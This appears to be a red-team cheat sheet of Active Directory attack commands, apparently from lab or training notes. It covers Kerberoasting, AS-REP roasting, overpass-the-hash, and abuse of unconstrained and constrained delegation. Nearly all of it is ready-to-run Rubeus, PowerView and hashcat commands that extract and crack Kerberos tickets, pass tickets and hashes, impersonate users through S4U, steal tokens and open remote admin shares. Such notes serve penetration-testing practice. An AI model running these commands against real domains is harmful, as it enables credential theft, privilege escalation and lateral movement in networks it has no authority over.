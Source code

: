 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe  kerberoast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainGroupMember -identity 'Helpdesk\Admins' -recurse | select -exp membername  
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
powershell Find-DomainUserLocation -userIdentity 'Workstation\Admins'  

execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be # krbtgt/insomnia.ninja along with LUID
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x21d8e17 /ticket:[...snip...]
steal_token 4652
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo #To find what services it could delegate for
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x239b995 /ticket:[...snip...]
steal_token 3420
ls \\fs-1.cyberbotic.io\c$
```


